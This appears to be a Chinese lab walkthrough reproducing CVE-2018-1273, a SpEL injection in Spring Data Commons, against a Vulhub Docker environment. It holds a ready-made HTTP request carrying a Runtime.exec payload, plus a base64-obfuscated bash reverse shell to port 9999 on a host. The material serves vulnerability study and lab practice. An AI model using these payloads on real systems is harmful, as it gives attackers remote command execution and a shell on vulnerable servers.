 # Spring Data Commons 远程命令执行漏洞 CVE-2018-1273

## 漏洞描述

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

Vulhub执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8080/users`，将可以看到一个用户注册页面。

![image-20220301152041573](./images/202203011520665.png)

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/awesome_poc")]=&password=&repeatedPassword=
```

![image-20220301152743774](./images/202203011527857.png)

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/awesome_poc`，说明命令执行成功：

![image-20220301152752322](./images/202203011527377.png)

构造反弹shell的Payload（**注意**，Base64编码后需要再进行URL编码，否则将反弹失败）：

```
# URL编码前
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# URL编码后
bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}
```

```
# Payload
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
```

监听9999端口，成功接收反弹shell：

![image-20220301153412308](./images/202203011534428.png)